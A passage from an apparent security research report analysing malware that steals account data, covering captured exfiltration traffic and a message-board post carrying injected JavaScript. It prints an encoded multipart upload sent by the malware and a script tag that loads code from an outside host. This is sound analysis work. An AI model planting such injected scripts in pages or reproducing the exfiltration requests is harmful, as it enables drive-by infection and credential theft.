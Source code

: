 ```
 Pragma: no-cache
 --swefasvqdvwxff
 Content-Disposition: form-data; name=datafile; filename="data.str"
 Content-Type: application/octet-stream
 Q+XBMVFhG5Q00cU14KO1zhSPDm7HDrF1gGfSICO7kQJkszUFdVQ/RJWldRC1RgUPJD7Nfodu0l
 UgswJhs04Gc1VCtxV1FZhhYHAEYQQzkap1vm5/tH6CZdBXIsQT7yeitmJ1ZeKkzjDA80cTZuIWzPbK
 Pw/n2qLFMMeCs4NuV3N0E3QEFXXNoMDF1cE1x/TKZN+u/qfOtjHlo6IQA3+nwrYDhGTUJF7EoB
 Bk0RV3dK60md7ON86AR2IURuXX32cCBdPExwSEbtBQUbETt/WSOpGr3m4HftK1s3eCENNfV8Y
 Vk9R1pBROEEAhNJd0ZsfeZDubqqduAnXQt7EAg2+nIiXHFPRUdM6AlnEUwTQGBS41Hm4PFjrnoaB
 nAgDTv8QChRPUVCTAfrCwcGXhxXZlLpJ+D85GmHIFINMDcbM+52O1I7AFlGXOIMRw1WE1JxV
 udN+u7hd/0gS057Jwp28GUsVzoGSk1P6gwGEEIcUHwMqRDj9/Br7kMeWjA8ETfsQChRPUVCTAf8F
 gcKQQFWYlmGQern+nbhIEULdyROar1xIFA9S0twT+EKBRVbWlx6R/BG/+/rcM4ZMQFtIBo29nc1XD
 dDDh0N4QcHGlsbZ39G6kX166F3/SBOa3cmFTbwZjFQKEpCRAm9TQYXVx1bfHfvRvrl4nuqLF0HZy
 UOWud7JlE3UkxHQ65aTRZXEFp7TNdP9uridexmVBx3Jx5X4GskTlRQXkoL8QcNGlxcUHFS5kDH9up
 662k7TnsnCnbwZSxXOgRTU1yrSVMHRwxZHnSzEqzX3VzaKlACeCUECMkcdgVqBRcVHaxVUk0RT
 QIjA9pjk4GFZc0VLhMXQ
 --swefasvqdvwxff—
```
Figure 13 - Data sent by malware

The server involved in collecting the data was different than the server hosting the actual exploit code. The data collection server was located in the Republic of Moldavia, but registered to a person from Ukraine. The server hosting the exploit code was located in Russia and registered to a person from Germany and the site we initially accessed (www.keithjarrett.it) was located in Italy. We were unsuccessful when we ask the administrative contacts for the web server initially accessed to remove the malicious code. It is not at all clear if the original site itself as well as the servers hosting the exploit code were either servers controlled by people intending on distributing malware or had been compromised by attackers and modified to distribute it. However, this example illustrates the diverse nature of the components which are, willingly or unwillingly, involved in the scam to obtain (and eventually (ab)use) account data from users. Given such a distributed network of parties and systems, it would be difficult to identify and prosecute the criminals involved.

http://www.anyboard.net/suggest/posts/7933.html

Another malicious page we identified was located on a server that ran the message board Anyboard. We chose to include an in-depth analysis of this site, because it contains interesting aspects around the attack and the malware deployed. This site allows us to illustrate user submitted exploits, additional measures taken to avoid detection, and social engineering aspects that are involved in the scam.

The attack from anyboard.net demonstrates that the operator of the web site might not always be involved in the attack. The attack is possible because the deployed web application on the server follows bad practices enabling the server to be abused by its users. In this particular instance, the web application allows users to post messages to a threaded message board, but doesn’t seem to perform any input validation on the message posts. As a result, malicious users can post harmful JavaScript code. On post 7933, this seems to have happened where a user posted a script to include an exploit as shown in the HTML code snippet shown in Figure 14.

```
 <div class="MessageBody"><font size=-1 face="Verdana"><script src="https://www.impliedscripting.com/js/?cl=90716&q=interracial+cuckold"></script>
 <br ab><center><h1>Free
```
